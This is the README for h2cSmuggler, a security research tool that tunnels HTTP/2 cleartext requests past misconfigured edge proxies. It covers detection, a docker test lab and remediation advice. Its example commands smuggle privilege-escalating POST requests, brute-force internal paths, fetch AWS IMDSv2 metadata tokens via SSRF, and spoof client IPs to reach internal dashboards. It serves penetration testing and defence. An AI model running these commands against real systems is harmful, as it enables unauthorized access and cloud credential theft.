



# h2cSmuggler


## Description

h2cSmuggler smuggles HTTP traffic past insecure edge-server `proxy_pass` configurations by establishing HTTP/2 cleartext (h2c) communications with h2c-compatible back-end servers, allowing a bypass of proxy rules and access controls.
<p align="center">
  
</p>

See my detailed write-up below for:
* Technical breakdown of the vulnerability
* Insecure-by-default services
* Remediation guidance

Here: [https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c)

### How to test?

Any proxy endpoint that forwards h2c upgrade headers can be affected. Because h2c is intended to be performed only on cleartext channels, detection on HTTPS services often yields true positives.

By contrast, HTTP services may result in false positives. For example, h2c-enabled proxies may respond to the upgrade instead of forwarding it to an h2c back end.

Use the `--scan-list` option to test one or more web servers to look for affected `proxy_pass` endpoints. Consider using a list of directories discovered from directory enumeration, such as:

**urls.txt**
```
https://www.example.com/
https://www.example.com/api/
https://www.example.com/auth/
https://www.example.com/admin/
https://www.example.com/payments/
...omitted for brevity...
```

Run h2cSmuggler with the list of endpoints and a total number of threads:

`./h2csmuggler.py --scan-list urls.txt --threads 5`

Or, an individual test can be performed with:

`./h2csmuggler.py -x https://www.example.com/api/ --test`

#### Detecting with other popular tools:
* [Burp Extension (Active Scan check)](https://github.com/BishopFox/h2csmuggler/blob/master/extensions/BurpExtension/h2cSmugglingCheck.py)
* Nuclei-Template (Coming soon! [Requires this issue to be fixed](https://github.com/projectdiscovery/nuclei/issues/256#issuecomment-679038443))
### Exploitation

Once you have identified an affected endpoint that can be used for tunneling, you can now access or brute-force internal endpoints on the back-end server and provide custom verbs or headers. In the [demo below](#test-environment-and-demo), we demonstrate accessing an internal `/flag` endpoint by using h2c smuggling to bypass proxy deny rules.

To remediate, do not forward user-supplied values for `Upgrade` or `Connection` headers. See the [technical post](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c) for additional guidance.

## Install Instructions

The only dependency is the Python hyper-h2 library:
```sh
pip3 install h2
```

### Test Environment and Demo
The test environment will allow you to experiment with h2cSmuggler in a controlled environment. `docker-compose` will simulate three chains of proxies that lead to an h2c-enabled Golang back end:

```
TCP port: Description
========  ===========
8000:     HTTP h2c backend
8001:     HAProxy -> h2c backend (Insecure default configuration)
8002:     nginx -> h2c backend  (Insecure custom configuration)
8003:     Nuster -> HAProxy -> h2c backend (Insecure configuration with multiple layers of proxies)
```


[1] Generate Certificates and spin up the environment with `docker-compose`:
```sh
# Generate certs
./configs/generate-certificates.sh

# Activate services
docker-compose up
```

All of the proxies deny access to the `/flag` endpoint accessible on the h2c back end. Let's attempt to access the forbidden endpoint via the HAProxy server running on port 8001:




We can use h2cSmuggler to confirm the proxy's insecure configuration using `--test` (or `-t`):


Now, let's use h2cSmuggler to perform an h2c upgrade, tunnel our HTTP/2 traffic through the proxy, and request the `/flag` endpoint from the back end, bypassing the proxy's access control:




For a deeper explanation of what is happening, check out the [technical writeup](https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c).

### Usage

h2cSmuggler uses a familiar curl-like syntax for describing the smuggled request:
```sh
usage: h2csmuggler.py [-h] [--scan-list SCAN_LIST] [--threads THREADS] [--upgrade-only] [-x PROXY] [-i WORDLIST] [-X REQUEST] [-d DATA] [-H HEADER] [-m MAX_TIME] [-t] [-v]
                      [url]

Detect and exploit insecure forwarding of h2c upgrades.

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```
### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

Or, to redirect output to a file. Use stderr (`2>`) and stdout (`1>`). The stderr stream contains errors (e.g., SSL handshake/timeout issues), while stdout contains results.

```
./h2csmuggler.py --scan-list urls.txt --threads 5 2>errors.txt 1>results.txt
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```
### FAQ

**Q: Why are there multiple responses from the server?**

A: The first response is the data response to the original upgrade request initiated in HTTP/1.1, per the h2c upgrade protocol. The following responses are from the smuggled request.

**Q: I received a "101 Switching Protocols" but I'm not receiving any data from the remote server.**

A: I observed this behavior in my tests and found that some servers respond with a 101 status even if they do not actually support HTTP/2.

**Q: Is establishing an h2c tunnel always a vulnerability?**

A: No. Consider a TLS-terminating TCP load balancer (e.g., ELB) proxying directly to an h2c-compatible back end. Although you may be able to establish an h2c connection, if there are no access controls being enforced, then there are no access controls to bypass, or privilege gained by initiating this tunnel.

**Q: Why does the smuggled request URI require a scheme? What is it used for?**

A: The HTTP/2 protocol requires a `:scheme` psuedo-header. For our use case, `http` vs. `https` likely doesn't matter. For more details, see [HTTP/2 RFC: Section 8.1.2.3](https://http2.github.io/http2-spec/#rfc.section.8.1.2.3).

**Q: What should I use as the hostname for the back-end server?**

A: It's best to start with the same hostname as the edge server. Next, try experimenting with alternative hostname values.


### Author

Twitter: [@theBumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
